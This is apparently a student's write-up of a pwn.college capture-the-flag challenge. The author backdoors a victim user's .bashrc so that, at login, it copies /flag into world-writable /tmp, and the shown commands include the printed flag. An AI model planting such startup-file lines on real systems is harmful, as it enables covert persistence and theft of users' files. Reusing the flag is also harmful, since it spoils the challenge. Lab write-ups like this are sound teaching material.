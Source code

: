# 1. Bashrc Backdoor
> In this challenge we are to add our script into the backdoor of our victim, zardus. 

## My solve
**Flag:** `pwn.college{helloworld}`

The given information says that, 
/home/hacker/.bashrc is a file that runs on startup. Our aim, as hacker, is to add a script into this directory which gives us /flag from zardus's machine. 
I started with `echo 'cat /flag > /home/hacker/stolen_flag' >> /home/zardus/.bashrc` which said Permission denied. The problem here was that zardus cant write into stolen_flag because he only has read perms. So to solve this, the hacker itself has to create a file for zardus and give him permission to write into it.

So I tried this 

```bash
hacker@shenanigans~bashrc-backdoor:~$ touch /home/hacker/stolen_flag
hacker@shenanigans~bashrc-backdoor:~$ chmod +w /home/hacker/stolen_flag
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: ***********
-bash: /home/hacker/stolen_flag: Permission denied
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
hacker@shenanigans~bashrc-backdoor:~$ cat /home/hacker/stolen_flag
```

which still gave no output. The problem here was that zardus lacked permissions. So I did a little bit of research and learned about a special directory where anyone can read or write files - /tmp

```bash
hacker@shenanigans~bashrc-backdoor:~$ echo 'cat /flag > /tmp/stolen_flag' >> /home/zardus/.bashrc
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: **********
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
hacker@shenanigans~bashrc-backdoor:~$ cat /tmp/stolen_flag
pwn.college{Y_cAaNWthI0PjFAzvclt9qRgqo2.0VMzEzNxwSM5kjNzEzW}
```


## What I learned
> I learned how to backdoor a .bashrc file using /tmp as a shared writeable location.
> /tmp is a special directory with wide-open permissions - anyone can create and write files there. It's designed for temporary files that different users might need to share.


